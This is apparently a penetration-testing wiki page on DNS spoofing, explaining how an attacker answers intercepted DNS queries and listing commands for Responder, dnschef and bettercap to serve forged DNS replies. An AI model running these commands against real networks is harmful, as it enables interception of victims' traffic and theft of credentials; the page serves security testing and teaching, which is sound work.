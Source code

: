 ```yaml
---
authors: ShutdownRepo, sckdev
---
```


# DNS spoofing

## Theory

DNS is not multicast or broadcast like [LLMNR, NBT-NS or mDNS](llmnr-nbtns-mdns-spoofing.md). In order to answer DNS requests, attacker first need to receive them. For instance, this can be achieved with [ARP spoofing](arp-poisoning.md) or [DHCPv6 spoofing](dhcpv6-spoofing.md). DNS spoofing is basically setting up a DNS server and answering DNS queries obtained through man-in-the-middle technique.

## Practice

::: tabs

=== Responder

[Responder](https://github.com/SpiderLabs/Responder)'s (Python) DNS server feature can be used to answer DNS queries.

```bash
responder --interface "eth0"
responder -I "eth0"
```


=== dnschef

[dnschef](https://github.com/iphelix/dnschef) (Python) can be used as a DNS server. 

```bash
dnschef --fakeip 'Pentest_IP_Address' --interface 'Pentest_IP_Address' --port 53 --logfile dnschef.log
```


=== bettercap

In order to spoof DNS requests, [bettercap](https://www.bettercap.org/) (Go) can be used. This tool can also be used for the first step of [ARP spoofing](arp-poisoning.md) or [DHCPv6 spoofing](dhcpv6-spoofing.md). 

```bash
set dns.spoof.domains $DOMAIN_FQDN
set dns.spoof.all true
dns.spoof on
```

:::


## Resources

[https://www.bettercap.org/modules/ethernet/spoofers/dns.spoof/](https://www.bettercap.org/modules/ethernet/spoofers/dns.spoof/)
